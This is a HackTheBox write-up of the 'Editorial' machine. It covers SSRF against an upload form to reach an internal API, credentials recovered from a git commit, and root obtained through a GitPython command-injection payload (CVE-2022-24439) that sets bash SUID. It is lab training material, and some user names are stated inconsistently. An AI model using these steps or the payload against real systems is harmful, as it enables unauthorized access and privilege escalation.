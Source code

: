 ```yaml
---
title: "Editorial Writeup - HackTheBox"
date: 2024-10-09
draft: false
description: Editorial is an easy difficulty Linux machine that features a publishing web application vulnerable to Server-Side Request Forgery (SSRF). This vulnerability is leveraged to gain access to an internal running API, which is then leveraged to obtain credentials that lead to SSH access to the machine. Enumerating the system further reveals a Git repository that is leveraged to reveal credentials for a new user. The root user can be obtained by exploiting [CVE-2022-24439](https://nvd.nist.gov/vuln/detail/CVE-2022-24439) and the sudo configuration.
Tags:
- HackTheBox
- Linux
- Easy

---
```


| Link: | [https://app.hackthebox.com/machines/Editorial](https://app.hackthebox.com/machines/Editorial) |
| --- | --- |
| Difficulty | Easy |
| Machine | Linux |

---

## Enumeration

I ran nmap scan quickly on the target machine to reveal open ports on the box.

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

I again ran agressive scan on the box on two open ports again using `sudo nmap 10.10.11.20 -T4 -vv -sC -sV -A -O` , following is result of the scan:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I added editorial.htb to my /etc/hosts file using command “`echo '10.10.11.20 editorial.htb' >> /etc/hosts`” and then visited `http://editorial.htb` the site looks like this:

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled.png)

## User Flag

There is `/upload` endpoint where we have upload functionality. We might get File Upload to RCE on this box. I will try to upload a reverse shell script to get a shell.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%201.png)

After bit of testing, the form field has cover url section which is actually vulnerable to SSRF and not file upload vulnerability in this website. 

The following request is vulnerable to SSRF where I will try to 

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%202.png)

Upon testing on internal network, I found that there is port 5000 open on this box.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%203.png)

Visiting the port 5000 response i.e (`static/uploads/rrrrrrrr-eeee-zzzz-yyyyy-iscool`) reveals the api endpoint:

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%204.png)

I visited the api endpoint and tried to open the file downloaded from the request recieved from the rsponse.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%205.png)

Upon visiting the endpoint given as by the request from above image, we get a file downloaded in our system. 

The file contains the username and password for user `dev`. Using SSH to the user and now we get user flag.

## Root Flag

There is a directory `/apps` which contains `.git` in home directory of the user dev.

```
dev@editorial:~$ ls
apps  lol.zip  user.txt
dev@editorial:~$ cd apps
dev@editorial:~/apps$ ls -la
total 24
drwxrwxr-x 6 dev dev 4096 Jun 16 08:17 .
drwxr-x--- 5 dev dev 4096 Jun 16 08:17 ..
drwxrwxr-x 2 dev dev 4096 Jun 16 08:13 app_api
drwxrwxr-x 4 dev dev 4096 Jun 16 08:10 app_editorial
drwxr-xr-x 8 dev dev 4096 Jun 16 08:09 .git
drwxrwxr-x 2 dev dev 4096 Mar  9  2021 GitDump-master
```

I will try to see logs:

```
dev@editorial:~/apps$ git log .
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info

    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
```

Thee commit `b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` shows that there is change in api downgrading from `prod` to `dev`. I will try to show the commit like this:

```
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: R3DACTED_PASSWORD\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: R3DACTEDPASSWORD!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------

```

This has credential for both user `prod` and `dev`. Since we are already at user prod, we will change our user to `prod`.

```
dev@editorial:~/apps$ su prod
Password: 
prod@editorial:/home/dev/apps$ 
```

By using `sudo -l` i can see that this user prod can use `/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *` as root and we wont be asked for password.

Below is the code for the python script `/opt/internal_apps/clone_changes/clone_prod_change.py`

```
prod@editorial:/home/dev/apps$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

This script changes the working directory to `/opt/internal_apps/clone_changes`, initializes a bare Git repository, and clones the repository specified by `url_to_clone` into a subdirectory named `new_changes` with a specific Git configuration option.

Doing few research there is RCE vulnerability for this. If you are interested reading you can read [here](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

I will use this script to make /bin/bash suid binary and then use it to get root shell.

I ran `sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'`

Although I got errors, it successfully made it suid binary. I simply then ran `/bin/bash -p` to get root shell.

```
prod@editorial:~$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
```

There we go. We rooted this box successfully.

## Conclusion

Thanks for following my writeup. Follow my blogs for more. :D
